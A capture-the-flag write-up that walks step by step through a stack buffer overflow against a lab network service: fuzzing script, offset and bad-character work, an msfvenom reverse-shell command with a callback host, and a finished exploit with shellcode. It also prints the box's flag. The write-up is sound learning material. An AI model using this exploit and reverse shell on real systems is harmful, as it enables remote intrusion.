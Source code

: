 Running the binary locally 

 ![[Pasted image 20210530212228.png]]
 
 here on analysing the binary it does not crash when we fuzz the username but the message
 
 ![[Pasted image 20210530213439.png]]
 
 ## fuzzing
 so the fuzzing script
 
 ```python
 #!/usr/bin/env python3

import socket, time, sys

ip = "192.168.1.102"

port = 9999
timeout = 5
prefix = ""

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      s.send(bytes("sp00f ", "latin-1"))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
 ```
  
  and it crashed at 3000 bytes
 ![[Pasted image 20210530214019.png]]
 
 ## offset
 
 ![[Pasted image 20210530214743.png]]
 
EIP: 31704330

![[Pasted image 20210530214926.png]]

offset: 2012

after many attempts it became clear that we have to crash to program to see the updated EIP(dont know why, so have to send the rest of the bytes along with the buffer too)

![[Pasted image 20210530225048.png]]

```python
import socket

ip = "192.168.1.102"
port = 9999

prefix = ""
offset = 2012
overflow = "A" * offset + "B"*4
retn = ""
padding = ""
payload = ""
postfix = "C"*984

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  s.recv(1024)
  #s.recv(1024)
  s.send(bytes("sp00f" + "\r\n", "latin-1"))
  s.recv(1024)
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## bad chars

`!mona config -set workingfolder C:\mona\%p`

`!mona bytearray -b "\x00"`

ESP: 01E4EEF0

`!mona compare -f C:\mona\bytearray.bin -a 01E4EEF0`

or `!mona compare -f C:\mona\bytearray.bin -a esp`

here the only bad char is `\x00`

![[Pasted image 20210530231258.png]]

## jmp point

`!mona jmp -r esp -epb "\x00"`

625014DF

little endian `\xdf\x14\x50\x62`

![[Pasted image 20210530231727.png]]


## exploit
`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00"`
we got shell


![[Pasted image 20210530232229.png]]

root(the only flag) === 5b1001de5a44eca47eee71e7942a8f8a 

![[Pasted image 20210530232345.png]]

```python
import socket

ip = "10.10.21.198"
port = 9999

prefix = ""
offset = 2012
overflow = "A" * offset
retn = "\xdf\x14\x50\x62"
padding = "\x90" * 16
payload = (
"\xfc\xbb\x94\xfa\x8d\xa0\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x68\x12\x0f\xa0\x90"
"\xe3\x70\x28\x75\xd2\xb0\x4e\xfe\x45\x01\x04\x52\x6a\xea\x48"
"\x46\xf9\x9e\x44\x69\x4a\x14\xb3\x44\x4b\x05\x87\xc7\xcf\x54"
"\xd4\x27\xf1\x96\x29\x26\x36\xca\xc0\x7a\xef\x80\x77\x6a\x84"
"\xdd\x4b\x01\xd6\xf0\xcb\xf6\xaf\xf3\xfa\xa9\xa4\xad\xdc\x48"
"\x68\xc6\x54\x52\x6d\xe3\x2f\xe9\x45\x9f\xb1\x3b\x94\x60\x1d"
"\x02\x18\x93\x5f\x43\x9f\x4c\x2a\xbd\xe3\xf1\x2d\x7a\x99\x2d"
"\xbb\x98\x39\xa5\x1b\x44\xbb\x6a\xfd\x0f\xb7\xc7\x89\x57\xd4"
"\xd6\x5e\xec\xe0\x53\x61\x22\x61\x27\x46\xe6\x29\xf3\xe7\xbf"
"\x97\x52\x17\xdf\x77\x0a\xbd\x94\x9a\x5f\xcc\xf7\xf2\xac\xfd"
"\x07\x03\xbb\x76\x74\x31\x64\x2d\x12\x79\xed\xeb\xe5\x7e\xc4"
"\x4c\x79\x81\xe7\xac\x50\x46\xb3\xfc\xca\x6f\xbc\x96\x0a\x8f"
"\x69\x38\x5a\x3f\xc2\xf9\x0a\xff\xb2\x91\x40\xf0\xed\x82\x6b"
"\xda\x85\x29\x96\x8d\xa3\xbc\x9c\x9d\xdc\xbc\x9c\x3e\x34\x48"
"\x7a\x2a\x56\x1c\xd5\xc3\xcf\x05\xad\x72\x0f\x90\xc8\xb5\x9b"
"\x17\x2d\x7b\x6c\x5d\x3d\xec\x9c\x28\x1f\xbb\xa3\x86\x37\x27"
"\x31\x4d\xc7\x2e\x2a\xda\x90\x67\x9c\x13\x74\x9a\x87\x8d\x6a"
"\x67\x51\xf5\x2e\xbc\xa2\xf8\xaf\x31\x9e\xde\xbf\x8f\x1f\x5b"
"\xeb\x5f\x76\x35\x45\x26\x20\xf7\x3f\xf0\x9f\x51\xd7\x85\xd3"
"\x61\xa1\x89\x39\x14\x4d\x3b\x94\x61\x72\xf4\x70\x66\x0b\xe8"
"\xe0\x89\xc6\xa8\x01\x68\xc2\xc4\xa9\x35\x87\x64\xb4\xc5\x72"
"\xaa\xc1\x45\x76\x53\x36\x55\xf3\x56\x72\xd1\xe8\x2a\xeb\xb4"
"\x0e\x98\x0c\x9d\x0e\x1e\xf3\x1e"
)

postfix = "C"*984

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  s.recv(1024)
  #s.recv(1024)
  s.send(bytes("sp00f" + "\r\n", "latin-1"))
  s.recv(1024)
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```
